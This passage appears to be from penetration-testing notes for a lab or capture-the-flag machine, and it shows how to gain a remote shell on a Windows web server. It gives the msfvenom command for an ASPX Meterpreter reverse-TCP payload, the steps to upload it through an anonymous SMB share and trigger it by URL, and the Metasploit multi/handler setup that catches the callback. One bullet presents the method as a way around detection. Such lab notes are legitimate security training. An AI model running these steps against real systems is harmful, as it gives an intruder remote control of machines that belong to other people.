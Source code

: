 **When to Use:**
- **Indirect Exploitation**: Direct exploitation is not possible or reliable.
- **File Upload/Execution**: You have the ability to upload and execute files on the target.
- **Bypassing Detection**: Uploading a payload might bypass some security mechanisms that detect direct exploitation.

**How to Use:**

1. **Generate the Payload with `msfvenom`**:
   ```bash
   msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=<your_ip> lport=<your_port> -f aspx -o reverse_shell.aspx
   ```
2. **Upload the Payload**:
   ```bash
   smbclient //10.10.164.10/nt4wrksv -U "" -N
   put reverse_shell.aspx
   ```
3. **Set Up a Listener in Metasploit**:
   ```plaintext
   use exploit/multi/handler
   set PAYLOAD windows/x64/meterpreter/reverse_tcp
   set LHOST <your_ip>
   set LPORT <your_port>
   exploit
   ```
4. **Trigger the Payload**:
   Access the uploaded payload to execute it, for example:
   ```plaintext
   http://10.10.164.10/nt4wr

ksv/reverse_shell.aspx
   ```

### Using Multi/Handler

**When to Use:**
- **Handling Reverse Connections**: Multi/Handler is used to set up a listener for incoming connections from payloads that have been executed on the target.
- **Independent of Exploit**: It can be used independently of the exploitation method to handle the reverse shell.

**How to Use:**

1. **Select Multi/Handler**:
   ```plaintext
   use exploit/multi/handler
   ```
2. **Configure the Payload**:
   ```plaintext
   set PAYLOAD windows/x64/meterpreter/reverse_tcp
   set LHOST <your_ip>
   set LPORT <your_port>
   ```
3. **Start the Listener**:
   ```plaintext
   exploit
   ```
